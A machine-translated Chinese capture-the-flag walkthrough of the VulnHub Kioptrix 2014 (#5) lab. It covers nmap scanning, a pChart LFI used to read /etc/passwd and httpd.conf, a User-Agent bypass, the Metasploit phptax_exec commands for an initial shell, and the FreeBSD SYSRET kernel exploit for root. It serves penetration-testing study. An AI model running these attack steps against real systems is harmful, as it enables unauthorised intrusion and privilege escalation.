# Vulnhub 对 2014 年 Kioptrix 的报道(#5)

> 原文：<https://infosecwriteups.com/vulnhub-oscp-type-kioptrix-5-writeup-16b73a3afa10?source=collection_archive---------0----------------------->

*这是来自*[*VulnHub*](https://www.vulnhub.com/)*的机器* [*KIOPTRIX*](https://www.vulnhub.com/entry/kioptrix-2014-5,62/) *的特写。*

# 摘要

Kioptrix 基于 FreeBSD 9.0，在 phptax 漏洞的帮助下，我们获得了初始外壳，而 **SYSRET** 内核漏洞帮助我们获得了根。

> 机器作者: [Kioptrix](https://twitter.com/loneferret)
> 机器类型:FreeBSD 9.0

# 专有技术

*   Nmap
*   Searchsploit
*   Metasploit

# 吸收技能

*   pChart 2.1.3 漏洞利用
*   phptax 漏洞利用
*   SYSRET 内核漏洞(CVE:[2012–0217](https://nvd.nist.gov/vuln/detail/CVE-2012-0217))

# 扫描网络

```
$nmap -sC -sV 192.168.0.130
```



man nmap


nmap 结果

有两个端口是开放的，80 和 8080。端口 8080 给我们禁止，端口 80 显示“它的作品”的消息。


端口 8080



端口 80

第 80 页的页面源给了我们一个 URL 的提示。



页面源

# 利用服务器



pChart 应用程序

有一个 pChart 应用程序，在用版本做 searchsploit 时，发现了多个漏洞。

```
$searchsploit pchart 2.1.3
```


```
$searchsploit -m exploits/php/webapps/31173.txt
$cat 31173.txt
```

将漏洞复制到当前工作目录。



人工搜索

```
$cat 31173.txt
```



LFI

LFI 正在工作，我们试着抢一下， **etc/passwd** 文件。

记下操作系统版本，这可能有助于权限提升。

 [## 29.8.Apache HTTP 服务器

### 开源的 Apache HTTP 服务器是使用最广泛的 web 服务器。

www.freebsd.org](https://www.freebsd.org/doc/handbook/network-apache.html) 

让我们获取用于存储配置的 httpd.conf 文件。



freebsd 中的 httpd.conf 位置



httpd.conf

在初始侦察端口期间，8080 是不可访问的，让我们尝试在 httpd.conf 文件中找到它。



要访问 8080 端口，用户代理必须是 Mozilla/4.0 Mozilla4_browser。



更改用户代理

端口 8080 有一个 phptax 应用程序正在运行，让我们使用 searchsploit 尝试找出应用程序中存在的任何漏洞。



端口 8080

```
$searchsploit phptax
```


# 拥有 WWW

```
$msfconsole
msf5 > search phptax
msf5 > use exploit/multi/http/phptax_exec  
msf5 exploit(**multi/http/phptax_exec**) > set RHOSTS 192.168.0.130 
msf5 exploit(**multi/http/phptax_exec**) > set RPORT 8080 
msf5 exploit(**multi/http/phptax_exec**) > exploit
```



msfconsole



初始外壳

# 自己的根

在最初的侦察中，我们发现 FreeBSD 版本是 9，让我们尝试找出是否有任何内核级的漏洞，这将有助于获得根。

```
$searchsploit FreeBSD 9.0
```



搜索结果

让我们试着把漏洞转移到机器上，wget 和 curl 没有安装到机器上，所以我用 Netcat 上传。



man nc



宿主



man nc



基奥普特里克斯



拥有根

[](https://medium.com/@yashanand155) [## 增量中等

### 从 inc0gnito 介质上读取文字。夺旗类游戏🚩|| HACKTHEBOX ||反转。每天，成千上万的人…

medium.com](https://medium.com/@yashanand155) 

*感谢阅读！如果你喜欢这个故事，请* ***点击*** 👏 ***按钮，分享*** *它来帮助别人！欢迎发表评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。*

# ❤️由[增加到](https://twitter.com/yashanand155)

[](https://twitter.com/yashanand155) [## inc0gnito

### CTF 玩家| | hack the box | | CTFs with @ ABS 0 lut 3 pwn 4g 3🚩

twitter.com](https://twitter.com/yashanand155) 

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)